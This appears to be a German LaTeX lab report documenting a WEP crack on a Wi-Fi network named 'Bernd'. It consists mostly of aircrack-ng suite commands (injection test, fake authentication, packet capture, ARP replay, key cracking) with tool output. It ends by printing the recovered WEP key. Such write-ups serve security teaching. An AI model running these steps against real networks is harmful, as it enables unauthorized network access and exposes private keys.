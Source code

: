 \documentclass[10pt,a4paper]{article}
\begin{document}
Als erstes haben wir mit dem folgenden Kommando überprüft, ob wir mit der Netzwerkkarte in das Netzwerk Bernd Pakete injizieren können.
\begin{verbatim}
aireplay-ng --test -e Bernd -a 64:70:02:1A:B1:81 --ignore-negative-one wlan1
\end{verbatim}
Da unser Client nicht am Access Point authentifiziert ist, führen wir mittels folgendem Befehl eine Fakeauthentifizierung durch.
\begin{verbatim}
aireplay-ng  -1 0 -e Bernd -a 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F --ignore-negative-one wlan1
\end{verbatim}
Dannach schnitten wir alle Pakete im Netzwerk mit:
\begin{verbatim}
airodump-ng -c 2 --bssid 64:70:02:1A:B1:81 -w output wlan1
\end{verbatim}
Um die Menge an beobachteten Paketen zu erhöhen fuhren wir eine ARP Replayattacke. Dabei wird jedes abgefangene Paket wieder in das Netzwerk eingespielt.
\begin{verbatim}
aireplay-ng -3 -b 64:70:02:1A:B1:81 -h 00:C0:CA:55:54:5F wlan1
\end{verbatim}
Nach circa 10 Minuten Pakete mitschneiden knackten wir auf Basis der mitgeschnittenen Pakete den WEP PreSharedKey:
\begin{verbatim}
aircrack-ng -b 64:70:02:1A:B1:81 output*.cap
\end{verbatim}
\begin{tiny}
\begin{verbatim}
                                                                 [00:00:00] Tested 835 keys (got 93526 IVs)

   KB    depth   byte(vote)
    0    0/ 25   71(122112) F5(107008) 3B(105216) 1B(103680) 94(103424) 90(103168) 3A(102656) A6(102656) 59(102400) CA(102400) 45(102144) 8B(101376) 9B(101120) 56(100864) 
    1    1/  1   E6(108288) 64(106496) 48(105472) 08(104960) 93(103936) 16(103424) 6B(103168) 92(102912) AA(102912) 74(102656) 56(102400) D9(102400) 9A(102144) 9F(102144) 
    2    0/  1   F9(131328) EF(108288) D0(107264) DF(107264) D2(105984) D9(105216) 02(104448) 7C(103936) E2(103168) 12(102912) C6(102912) 1A(102144) AB(102144) EA(102144) 
    3    0/  1   47(136960) 35(107776) 6B(106240) 74(106240) A2(106240) 08(105984) 70(104960) A3(104192) BE(103168) 22(102656) 31(102656) 87(102656) A8(102656) E8(102656) 
    4   14/  4   50(102144) 93(101632) 40(101120) B5(100864) 17(100608) 44(100608) 5B(100352) 75(100352) 18(100096) A3(100096) 55(99584) E3(99584) 26(99328) 65(99328) 

     KEY FOUND! [ 71:32:56:4E:4B:7A:31:47:73:52:71:59:41 ] (ASCII: q2VNKz1GsRqYA )
	Decrypted correctly: 100%
\end{verbatim}
\end{tiny}
Der verwendete WEP Key im Netzwerk Bernd lautet also: \texttt{q2VNKz1GsRqYA}.
\end{document}
